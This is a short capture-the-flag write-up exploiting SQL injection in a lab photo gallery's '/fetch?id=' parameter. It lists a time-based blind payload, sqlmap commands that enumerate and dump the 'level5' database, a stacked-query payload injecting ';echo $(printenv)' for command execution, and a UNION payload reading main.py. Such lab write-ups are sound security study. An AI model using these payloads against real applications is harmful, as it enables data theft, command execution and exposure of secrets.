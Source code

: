 # Step by step

#### View page source
- The application fetch image via `/fetch?id=1`

#### Manual test 
- The `/fetch?id=1` input entry vulnerable with SQLi

#### Scan with **burpsuite**
- Previous input entry has time-based blind SQLi `fetch?id=1%20OR%20SLEEP(5)`
- `id=3` cause server internal error

#### Used **sqlmap** scan 
- The app use MySQL. `sqlmap -u 'https://url/fetch?id=1`
- Scan for tables. `sqlmap -u 'https://url/fetch?id=1' --dbms=mysql --tables`
- 4 database: 
    - information_schema
    - level5
    - mysql
    - performance_schema
- Enumerate tables in **level5**. `sqlmap -u 'https://url/fetch?id=1' --dbms=mysql -D level5 --tables`
- 2 tables: 
    - albums
    - photos
- Enumerate all column in tables in **level5**. `sqlmap -u 'https://url/fetch?id=1' --dbms=mysql -D level5 --columns --threads 4`
- Dump id column of photos. ` --dbms=mysql --technique=BT -D level5 -T photos -C id --dump --threads 4`
- 3 value: 1, 2, 3
- Dump whole table photos since this table is small. `--dbms=mysql --technique=BT -D level5 -T photos --dump --threads 4`
- Found flag!!!
- Dump albums:
- RCE payload: `fetch?id=3; UPDATE photos SET filename=";echo $(printenv)" WHERE id=3; commit;`
- Union payload: `/fetch?id=-1 UNION select '/../../main.py'`
